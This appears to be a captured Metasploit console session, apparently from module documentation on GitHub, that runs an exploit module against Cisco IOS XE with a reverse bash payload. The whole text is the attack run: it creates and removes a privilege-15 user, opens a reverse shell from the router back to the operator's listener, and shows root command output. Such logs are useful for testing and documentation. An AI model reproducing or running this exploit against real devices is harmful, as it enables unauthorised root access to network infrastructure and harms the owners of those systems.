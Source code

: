 
```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'aZIYJugi' with password 'RziZqysr'
[*] Removing user 'aZIYJugi'
[*] Command shell session 4 opened (192.168.86.42:4444 -> 192.168.86.59:56584) at 2023-11-06 16:43:30 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux router 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.59 - Command shell session 4 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```
